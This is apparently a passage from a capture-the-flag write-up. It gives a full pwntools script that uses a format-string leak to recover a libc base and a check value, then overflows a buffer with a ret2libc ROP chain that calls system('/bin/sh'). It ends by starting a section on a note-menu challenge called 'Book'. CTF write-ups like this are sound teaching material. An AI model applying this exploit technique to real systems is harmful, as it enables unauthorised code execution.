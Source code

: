 Since we already have a libc leak, we don't even need to leak libc from the got , as we did in `bistrov1`.

We can write away do out `ret2libc` attack. 

Here is my final script:

```py
from pwn import *

libc = ELF("./libc-2.27.so")

p = gdb.debug("./bin")
p.recvline()

p.sendline("%p|" * 9)

leaks = p.recvline().split(b'|')
rand = leaks[-1][3:]

libc.address = int(leaks[1], 16) - 0x3ed8d0

print(hex(libc.address), rand)

p.recvline()
p.sendline(hex(int(rand, 16)))

p.recvuntil(">> ")
p.sendline("3")

p.recvuntil("eat:")

BINSH = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
POP_RDI = 0x0000000000400b33
RET = 0x400b34
p.sendline(b"A" * 112 + 8*b"B" + p64(POP_RDI) + p64(BINSH) +p64(RET) + p64(libc.sym.system))

p.interactive()
```


## Book

Book was a simple binary which exposed 6 different functions to the user:

```
Hi a,wellcome to dashboard?
1) Print NOTE list
2) Print NOTE entry
3) Store NOTE entry
4) Delete NOTE entry
5) Remote administration
6) Exit

```
